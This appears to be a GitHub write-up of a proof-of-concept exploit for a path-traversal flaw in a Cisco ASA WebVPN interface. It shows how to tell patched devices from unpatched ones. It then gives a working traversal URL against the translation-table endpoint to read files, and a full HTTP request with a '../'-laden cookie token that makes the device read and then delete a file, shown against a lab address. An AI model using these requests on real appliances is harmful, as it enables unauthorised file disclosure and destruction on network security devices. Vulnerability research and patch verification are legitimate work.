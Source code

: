 ## Verify that the vulnerability exists :

Downloaded the vulnerable code and compared it with the code from local environment.
![LFD](lfd.png)

When this path exists +CSCOE+/session_password.html this means the vulnerability isn't patched , and if the response is 404 that means the vulnerability is patched

Vuln:
![password](password.png)

Patched:
![fixed](fixed.png)

## Exploiting the vulnerability on local environment:
Trying to download a file:

https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

![file_before_delete](file_before_delete.png)

Issue Request Exploit the vulnerability:

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: 192.168.1.100
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Cookie: token=../../../../../../+CSCOE+/wrong_url.html
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The file is read and stored in webvpn cookie and then deleted
![delete_file.png](delete_file.png)

```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

```

![file_after_delete.png](file_after_delete.png)